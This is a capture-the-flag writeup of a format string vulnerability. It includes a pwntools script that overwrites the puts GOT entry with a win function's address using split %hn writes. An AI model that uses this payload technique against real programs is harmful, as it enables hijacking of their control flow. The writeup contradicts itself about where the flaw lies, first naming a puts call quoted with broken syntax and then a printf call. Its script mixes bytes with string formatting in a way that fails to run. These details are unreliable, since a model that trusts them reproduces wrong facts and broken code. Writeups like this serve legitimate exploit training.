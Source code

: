 # Challenge `Calling_functions_again` Writeup

- **Vulnerability**: Format String Vulnerability
  - This type of vulnerability occurs when a program uses user input as a format string for `printf` or similar functions without proper sanitization, allowing an attacker to read from or write to memory addresses.

- **Where**: The vulnerability is present in the `puts` function call within the `vuln` function in the provided C program.
  - Specifically, `puts("Bye!));` 

- **Impact**: By exploiting this vulnerability, an attacker can execute arbitrary code. In this challenge, it allows for the redirection of the program's flow to the `win` function, potentially enabling unauthorized actions, such as reading a file that should be restricted.

- **NOTE**: The challenge demonstrates the importance of proper input validation and the dangers of using untrusted input in sensitive functions. It's a classic example of a format string vulnerability that leads to arbitrary code execution.

## Steps to Reproduce

1. Analyze the provided C code to identify the format string vulnerability in the `printf` function call.
2. Use tools like `pwndbg` to find the addresses of `puts@GOT` and the `win` function.
3. Craft a payload that overwrites the GOT entry for `puts` with the address of `win`. This involves splitting the `win` address into two parts and calculating the number of bytes to write before each part.
4. Adjust the payload format to write the lower 16 bits of the `win` address first, followed by the higher 16 bits, using `%hn` to write only 2 bytes at a time.
5. Ensure the payload aligns with the stack layout of the program, modifying the format specifiers indices (`%7$hn` and `%8$hn`) as needed.
6. Send the crafted payload to the vulnerable program.
7. The program's execution flow is redirected to the `win` function when `puts` is called, demonstrating successful exploitation.

### Python Payload Script

The following Python script demonstrates how to generate and send the payload:

```python
from pwn import *

# Addresses
puts_got = 0x804c018
win = 0x8049216

# Split the win address into two parts
win_low = win & 0xffff
win_high = (win >> 16) & 0xffff

# Create the payload
# Write the lower half first, then the higher half
payload = p32(puts_got)
payload += p32(puts_got + 2)

# Calculate the number of bytes to write
# Account for the 8 bytes already written by the addresses
count_low = win_low - 8
count_high = win_high - win_low

# Ensure the counts are positive
if count_high < 0:
    count_high += 0x10000

payload += "%{}c%7$hn".format(count_low)
payload += "%{}c%8$hn".format(count_high)

# Send the payload
# Assuming you have a function to send the payload to the vulnerable program
print(payload)
```
This script creates a payload that first writes the lower 16 bits of the `win` address to the GOT entry of `puts`, then writes the higher 16 bits. The `%hn` format specifier is used to write only 2 bytes at a time, and the `%c` format specifier is used to control the number of bytes written. The indices `%7$hn` and `%8$hn` are used to correctly position the writes in the GOT.
